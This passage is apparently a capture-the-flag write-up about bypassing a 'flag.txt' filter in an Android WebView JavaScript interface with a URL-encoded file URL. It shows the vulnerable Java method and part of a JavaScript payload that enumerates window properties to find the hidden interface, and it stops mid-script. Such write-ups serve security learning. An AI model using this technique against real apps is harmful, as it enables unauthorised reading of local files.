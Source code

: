 To read file we can use javascript interface to load *file* URLs. But here the catch is if the URL contains **flag.txt** string it loads `aimar.id`. After fuzzing with webview, I found out that we can load URL encoded string in webview which while uri parsing won't decode it. So the idea is to load our webpage and find the interface using javascript since *javascript* is enabled in webview. And then using the javascript interface to load URL encoded *file* URL. Even with `setAllowUniversalAccessFromFileURLs` I tried loading file using XMLHttpRequest as mentioned in this [blog](https://blog.oversecured.com/Android-security-checklist-webview/#attacks-where-universal-file-access-from-file-urls-is-enabled) but it failed. Not sure whether new android apis prevents this.

```java
// MyJavascriptInterface.java
@JavascriptInterface
public void loadUrlSafe(final String url) {
    Uri uri = Uri.parse(url);
    if (uri.toString().contains("flag.txt")) {
        this.webView.post(new Runnable() { // from class: app.aimar.id.interfaces.MyJavascriptInterface.1
            @Override // java.lang.Runnable
            public void run() {
                MyJavascriptInterface.this.webView.loadUrl("https://aimar.id/");
            }
        });
    } else {
        this.webView.post(new Runnable() { // from class: app.aimar.id.interfaces.MyJavascriptInterface.2
            @Override // java.lang.Runnable
            public void run() {
                MyJavascriptInterface.this.webView.loadUrl(url);
            }
        });
    }
}
```


I crafted the below javascript to find out the interface which in our case is random string of length 32. The used it to call the javascript Interface method `loadUrlSafe` with file URL. 

```html
<html>
	<body>
	<script>
		var windows_obj = Object.getOwnPropertyNames(window);
        var res = ""
        const findOne = (obj) => {
            try {
                // Ensure that window[obj] is a valid object
                if (window[obj] && typeof window[obj] === 'object') {
                    return Object.getOwnPropertyNames(window[obj]);
                }
            } catch (e) {
                // Catch errors when trying to access certain properties
                return null;
            }
            return null;
        };

        for (var i = 0; i < windows_obj.length; i++) {
            var window_obj = windows_obj[i] ?? "document"; 

            if (window_obj === null || typeof window_obj === 'undefined') {
                continue;
            }

            var obj_props = findOne(window_obj);

```